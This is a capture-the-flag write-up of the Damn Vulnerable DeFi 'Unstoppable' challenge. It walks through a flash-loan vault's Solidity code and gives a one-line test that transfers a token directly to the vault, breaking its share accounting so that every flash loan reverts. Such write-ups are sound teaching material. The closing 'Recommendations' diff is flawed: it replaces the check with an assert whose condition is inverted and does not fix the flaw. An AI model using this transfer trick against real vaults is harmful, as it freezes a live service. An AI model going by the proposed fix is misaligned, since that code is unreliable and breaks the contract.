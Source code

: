 # Damnvulnerabledefi - UnstoppableVault

<img width="1416" alt="스크린샷 2024-09-16 오후 10 43 23" src="https://github.com/user-attachments/assets/6cf309ee-1ba8-419d-b89e-5020d59d41f6">

According to the readme we should stop the flashloan service. 
First, let's look at unstoppablevault.sol. 
The code for an unstoppable vault is shown below.

``` solidity
    function maxFlashLoan(address _token) public view nonReadReentrant returns (uint256) {
        if (address(asset) != _token) {
            return 0;
        }

        return totalAssets();
    }
```

First, the function of maxFlashLoan. maxFlashLoan is function of type public, view, modifier "nonReadReentrant".
max FlashLoan function is returns data type of uint256.
the totalAssets function is returns the total amount of underlying assets held by the vault.


``` solidity
    function flashFee(address _token, uint256 _amount) public view returns (uint256 fee) {
        if (address(asset) != _token) {
            revert UnsupportedCurrency();
        }

        if (block.timestamp < end && _amount < maxFlashLoan(_token)) {
            return 0;
        } else {
            return _amount.mulWadUp(FEE_FACTOR);
        }
    }
```

next function is flashFee. the flashFee is function of type public, view. and input parameter is address, uint256. 
the asset is pointed ERC20 token. so, if argument _token does not matched with ERC20 address the transaction is revert.

``` solidity
function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);
        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```

next, is flashLoan function. Looking at line 4, if covertToShares(totalSupply) and balanceBefore are not equal, it will revert. the balanceBefore variables is updated by return value of the function totalAssets. but, totalSupply is global variables is defind by ERC20 contract, updated deposit function flow for _mint.

``` solidity
function deposit(uint256 assets, address receiver) public virtual returns (uint256 shares) {
        // Check for rounding error since we round down in previewDeposit.
        require((shares = previewDeposit(assets)) != 0, "ZERO_SHARES");

        // Need to transfer before minting or ERC777s could reenter.
        asset.safeTransferFrom(msg.sender, address(this), assets);

        _mint(receiver, shares);

        emit Deposit(msg.sender, receiver, assets, shares);

        afterDeposit(assets, shares);
    }

    function _mint(address to, uint256 amount) internal virtual {
        totalSupply += amount;

        // Cannot overflow because the sum of all user
        // balances can't exceed the max uint256 value.
        unchecked {
            balanceOf[to] += amount;
        }

        emit Transfer(address(0), to, amount);
    }

```
we're using ERC20 transfer function and send token to vault, it could be updated balanceBefore. but totalSupply isn't. then, we can stop flashloan service.

``` solidity
    function test_unstoppable() public checkSolvedByPlayer {
        console.log("before totalAssets: ", vault.totalAssets());
        token.transfer(address(vault), 1);
        console.log("after totalAssets", vault.totalAssets());
    }
```

#result
![스크린샷 2024-09-20 오전 1 07 54](https://github.com/user-attachments/assets/e1feef37-fc2e-49d1-80d1-5b0159a5b1cf)

#Recommendations
``` solidity
        - if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement // shares : DVT
        + assert(convertToShares(totalSupply) != balanceBefore);
```

